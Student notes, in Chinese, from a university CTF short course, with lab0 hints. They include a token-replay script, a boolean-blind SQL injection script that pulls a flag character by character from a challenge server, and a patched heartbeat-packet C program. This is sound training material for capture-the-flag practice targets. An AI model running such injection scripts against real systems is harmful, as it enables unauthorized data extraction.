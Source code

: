 ```yaml
---
comments: true
statistics: true
---
```


# 浙江大学AAA短学期课程

:fontawesome-brands-github:[详细的lab与代码均会上传到仓库](https://github.com/kailqq/CTF)

## 7-2 lec1
> 授课：常瑞，王鹤翔(**TonyCrane**)

### :fontawesome-solid-flag:[courese website](https://courses.zjusec.com)

### 课程介绍

 第一节课例行介绍课程内容，老师以及TA，CTF介绍:

 - web
  
 - misc
  
 - crypto
  
 - pwn
  
 - reverse

 - 著名CTF比赛介绍 
  
!!!note 分数组成
    - 基础模块 lab0+5个实验 **55%**
    - 考勤 **%5**
    -  五个专题 每次作业 **20%** ，自选2个或以上

### 如何学习CTF
  -  [CTF-wiki](https://ctf-wiki.org/)
  
  -  [hello-CTF](https://hello-ctf.com)  
  
  -  [zju校赛](https://ctf.zjusec.com)

  -  [Hackergame](https://hack.lug.ustc.edu.cn)
  

### lab0
 :fontawesome-solid-flag:[**lab0**](https://courses.zjusec.com/intro/lab0/)
作为课程第一个作业，需要全部做完

!!!note 
     由于lab0报告中我已经写过一遍解释，不想再照搬上来力，所以只写个大概
    
#### Web
##### Token
背景：点击一个按钮1337次会得到Flag，但是鼠标靠近就会使得按钮消失，F12查看源代码也被禁止。

   - view-source：
   ![](./img/view.png)
  
   - `curl`命令 
   ![](./img/curl%20.png)

需要以同一个用户来执行1337次点击


???Hint
       ```python
       import requests

       import re

       sess = requests.Session()

       for i in range(1337):
           res=sess.get("http://pumpk1n.com/lab0.php")
           r = re.findall(r"token=(.*)'",res.text)
           flag=sess.get(f"http://pumpk1n.com/flag.php?token={r[0]}")
           if(i==1336):
             print(flag.text)
       ```

##### 布尔盲注
只有两种输入被允许，空格也不允许，1和2，但是会进行布尔运算，可以利用括号代替空格

???Hint
     ```python
     import requests
     import string


     flag=''
     url='http://040601e5-a92b-4bc9-8831-f9863d3d8381.node5.buuoj.cn:81/'
     ascii_list=string.printable
     done=0
     index=0
     while done != 1:
         for i in ascii_list:
             input='if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)'.format(index,ord(i))
             post_in={"id":input}
             res=requests.post(url=url,data=post_in)
             if 'glzjin' in res.text:
                 flag+=i
                 print(flag)
                 index+=1
                 if i=='}':
                     done=1
                 break
     ```

#### Pwn
  寻找可能发生的内存泄漏
???Hint
    ```C
        #include <stdio.h>
        #include <stdlib.h>
        #include <string.h>
        #include <stdint.h>
        #include <stdbool.h>

        struct hbpkt
        {
            uint32_t size;
            uint32_t timestamp;
            uint32_t index;
            uint32_t cred;
            char data[];
        };

        struct hbpkt *get_heart_beat()
        {
            uint8_t buffer[0x1000] = {0};
            fread(buffer, sizeof(struct hbpkt), 1, stdin);

            struct hbpkt *tmp = (struct hbpkt *)buffer;

            if (tmp->size > 0x1000)
                return NULL;
            
            if(tmp->size > sizeof(struct hbpkt))fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);
            else {
                printf("Invalid size\n");
                return NULL;
            }//增加判断，防止 size 小于等于 sizeof(struct hbpkt) 时无符号数溢出

            uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);

            struct hbpkt *res = malloc(real_size);

            if (!res)
                return NULL;

            memcpy(res, buffer, real_size);

            res->index += 1;
            res->size = real_size;//更新size，防止溢出

            return res;
        }

        int reply_heart_beat(struct hbpkt *pkt)
        {
            int err=0;
            int written;

            if (pkt->size)
            {
                written = fwrite(pkt, 1, pkt->size, stdout);
                fflush(stdout);
            }

            if (written == 0 || written != pkt->size)
            {
                err = 1;
            }

            return err;
        }

        int main()
        {
            int err;
            while (true)
            {
                struct hbpkt *p = get_heart_beat();
                if (!p)
                    continue;

                err = reply_heart_beat(p);

                if (err)
                {
                    free(p);
                    continue;
                }
                free(p);//释放内存
            }
        }  
    ```
#### Reverse
  反汇编IDA工具的使用
#### Misc


##### Cyperchef，神奇妙妙小工具


##### LSB隐写 


#### Crypto
##### 古典密码-跳舞的小人


##### RSA解密-模逆元求解
